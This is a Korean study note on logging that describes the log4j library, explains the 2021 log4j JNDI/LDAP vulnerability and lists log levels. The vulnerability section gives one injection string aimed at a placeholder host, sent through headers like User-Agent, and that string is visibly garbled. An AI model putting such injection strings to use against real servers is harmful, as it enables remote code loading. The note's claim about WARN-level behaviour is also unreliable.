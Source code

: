 **⏩ 개념**

> 로그(Log)란 프로그램 개발이나 운영 시 발생하는 문제점을 추적하거나 운영 상태를 모니터링하기 위한 텍스트이다.
> 

**⏩ log4j**

보통 log4j 라이브러리를 활용하여 로그를 저장한다.

log4j란 Java 기반의 로깅 유틸리티로, Apache에서 만든 오픈소스 라이브러리다. 

Log for Java라는 뜻으로 Jakarta-project에서 Java를 위한 프로젝트 중 하나로 처음부터 Java의 예외를 처리하기 위해 설계되었다.

프로그램 실행 시 자동으로 지정한 경로에 로그를 저장해주는 기능을 한다.

***+) log4j 취약점 ::  2021년 12월***

우선 이 취약점은 **JNDI**와 **LDAP**를 이용한다. **JNDI**는 **Java Naming and Directory Interface**의 약자로 1990년대 후반부터 Java에 추가된 인터페이스이다. Java 프로그램이 **디렉토리**를 통해 **데이터**(Java 객체 형태)를 찾을 수 있도록 하는 디렉토리 서비스이다.

JNDI는 이러한 디렉토리 서비스를 위해 **다양한 인터페이스**가 존재하는데 그 중 하나가 **LDAP**이다. 이 LDAP가 이번 취약점에 가장 중요한 포인트이다.

Java 프로그램들은 앞서 말한 JNDI와 LDAP를 통해 Java 객체를 찾을 수 있다. 예시로 URL ldap://localhost:389/o=JNDITutorial을 접속한다면 LDAP 서버에서 JNDITutorial 객체를 찾을 수 있는 것이다.

이러한 접근 인터페이스가 이번 사태에 치명적이게 된 이유는, Log4j에는 편리하게 사용하기 위해 ${prefix:name} 형식으로 **Java 객체를 볼 수 있게 하는 문법**이 존재하기 때문이다. 예를 들어 **${java:version}은 현재 실행 중인 Java 버전**을 볼 수 있게 한다.

이런 문법은 **로그가 기록될 때도 사용이 가능**했고, 결국 해커가 **로그에 기록되는 곳을 찾아 ${jndi:sndi:snd://example.com/a}과 같은 값을 추가**하기만 하면 **취약점을 이용**할 수 있는 것이다. 이 값을 넣는 방법은 **User-Agent와 같은 일반적인 HTTP 헤더**일 수도 있고 여러가지 방법이 있다.

즉, 로그가 기록되는 곳을 찾아 값을 추가하면 외부 리소스를 다운받을 주소가 공격자의 서버가 되기 때문에 아주 손쉽게 !! 악성코드가 침투하는 것이다.

**⏩ logging level**

- **FATAL**
    
    FATAL 로그는 아주 심각한 에러가 발생한 상태이다. 시스템적으로 심각한 문제가 발생해서 어플리케이션 작동이 불가능할 경우를 뜻한다.
    

- **ERROR**
    
    ERROR 로그는 프로그램 동작에 큰 문제가 발생했다는 것으로 즉시 문제를 조사해야 하는 수준이다.
    
    `예) DB를 사용할 수 없는 상태, 중요 에러가 나오는 상황`
    

- **WARN**
    
    WARN 로그는 주의해야 하지만, 프로세스는 계속 진행되는 상태를 말한다. 하지만 WARN 상태에서도 아래 2가지 문제가 발생하면 프로세스가 종료된다.
    
    - 명확한 문제 : 현재 데이터를 사용 불가, 캐시값 사용 등
    - 잠재적 문제 : 개발 모드로 프로그램 시작, 관리자 콘솔 비밀번호가 보호되지 않고 접속 등
    
- **INFO**
    
    중요한 비즈니스 프로세스가 시작될 때와 종료될 때를 알려주는 로그를 말한다.
    
    `예) ~가 ~를 실행했음`
    
- **DEBUG**
    
    개발자가 기록할 가치가 있는 정보를 남기기 위해 사용하는 레벨의 로그이다.
    

DEBUG > INFO > WARN > ERROR > FATAL 순으로 로그가 찍힌다.

**⏩ 참고**

[https://m.blog.naver.com/PostView.naver?isHttpsRedirect=true&blogId=2zino&logNo=221641662104](https://m.blog.naver.com/PostView.naver?isHttpsRedirect=true&blogId=2zino&logNo=221641662104)

[https://pig-programming.tistory.com/51](https://pig-programming.tistory.com/51)

[https://mdj1234.tistory.com/63](https://mdj1234.tistory.com/63)